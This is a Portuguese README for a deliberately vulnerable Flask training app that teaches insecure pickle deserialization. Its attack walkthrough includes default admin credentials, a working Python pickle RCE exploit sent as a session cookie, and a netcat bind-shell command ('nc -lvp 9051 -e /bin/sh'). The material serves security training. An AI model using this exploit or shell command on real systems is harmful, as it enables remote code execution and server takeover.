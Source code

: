 # Amarelo Designs

[Acessar conteúdo em Português](README_PT_BR.md)

<p align="center">
    <img src="images/Amarelo-Designs.png"/>
</p>

Esta é uma aplicação web simples construída com Flask que contém um exemplo de vulnerabilidade de falha de integridade de software e dados e, seu principal objetivo é descrever como um usuário malicioso poderia explorar uma vulnerabilidade, instalada intencionalmente no Amarelo Designs do secDevLabs, para obter dados remotos cegos execução do código. 

## Index

- [Definição](#O-que-é-falha-de-integridade-de-software-e-dados)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é falha de integridade de software e dados?

A serialização é o processo de tradução de estruturas de dados ou estado de objeto, em um formato que pode ser armazenado ou transmitido e reconstruído posteriormente. A desserialização insegura geralmente leva à execução remota de código. Mesmo que as falhas de desserialização não resultem em execução remota de código, elas podem ser usadas para realizar ataques, incluindo ataques de repetição, ataques de injeção e ataques de escalação de privilégios. 

O objetivo principal deste aplicativo é discutir como as vulnerabilidades **Software and Data Integrity Failure** podem ser exploradas e encorajar os desenvolvedores a enviar solicitações pull do secDevLabs sobre como mitigar essas falhas. 

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a8/amarelo-designs
```

```sh
make install
```

Depois é só visitar [localhost:10008][app] ! 😆

## Conheça o app 🎨

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples:

- Visite a página inicial!
- Dê uma olhada no portfólio

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### O uso de uma função de desserialização insegura permite a execução remota de código

É possível acessar a aplicação web do servidor a partir da porta HTTP 10008, como mostra a imagem abaixo:

<img src="images/attack1.png" align="center"/>

Fazendo uso da ferramenta [Dirb] para pesquisar páginas da web e diretórios comuns [wordlist], conseguimos encontrar `/user`, `/admin` e `/console`, como mostra a figura abaixo: (Se você deseja instalar o Dirb para Mac OS, certifique-se de clicar [aqui][4]) 

```sh
$ dirb http://localhost:10008 ./../../../docs/common.txt
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

Ao ser acessada, a página `/admin` expõe uma tela de autenticação, conforme ilustrado na imagem: 

<p align="center">
    <img src="images/attack3.png"/>
</p>

### 🔥

Um teste rápido utilizando `admin` como credenciais para os campos `Username` e `Password`, nos dá acesso a um Admin Dashboard, conforme mostrado abaixo:

<img src="images/attack4.png" align="center"/>

Agora, usando o [Burp Suite] como proxy para interceptar a solicitação de login, podemos ver que o aplicativo retorna um cookie de sessão, `sessionId`, conforme ilustrado abaixo:

<img src="images/attack5.png" align="center"/>

Após decodificar o cookie, que está em base64, foi encontrada a seguinte estrutura:

<img src="images/attack6.png" align="center"/>

A estrutura encontrada é muito semelhante às criadas com a função [Pickle]. Podemos ter certeza disso dando uma olhada no [código][3] do aplicativo. A dica já está confirmada, o app usa Pickle, como podemos ver na imagem abaixo:

<img src="images/attack7.png" align="center"/>

Se um invasor souber que o aplicativo usa `Pickle` como método de serialização, ele poderá criar um cookie malicioso para aproveitá-lo e executar o código remotamente. Um exemplo de exploit (serializaPickle.py) no Python 3 que poderia produzir esse cookie poderia ser:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

Para ter certeza de que o aplicativo é explorável, enviaremos um comando de suspensão para que o aplicativo não responda por 10 segundos. Se o aplicativo demorar 10 segundos para retornar nossa solicitação, então está confirmado, o aplicativo é explorável. Como podemos ver na imagem abaixo, o aplicativo demora um pouco para retornar nossa solicitação, confirmando assim que é explorável e confirmando a execução remota do código:

```sh
$ python3 serializaPickle.py "sleep 10" http://localhost:10008/user
```

<img src="images/attack9.png" align="center"/>

Para mostrar como um invasor pode ter acesso ao servidor por meio de um RCE, usaremos o código descrito na imagem abaixo para criar um shell de ligação na porta 9051 do servidor.

```sh
$ python3 serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:10008/user
```

<img src="images/attack10.png" align="center"/>

O código usado acima cria um shell de ligação na porta 9051 do servidor, que está ouvindo as conexões de entrada. Depois disso, o invasor pode se conectar a essa porta usando um simples comando [netcat], conforme mostrado abaixo: 

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="images/attack11.png"/>
</p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute código remotamente por meio de uma vulnerabilidade de serialização

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Amarelo+Designs%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10008
[secdevlabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a8/amarelo-designs
[dirb]: https://tools.kali.org/web-applications/dirb
[burp suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a8/amarelo-designs/app/app.py
[pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
[wordlist]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt
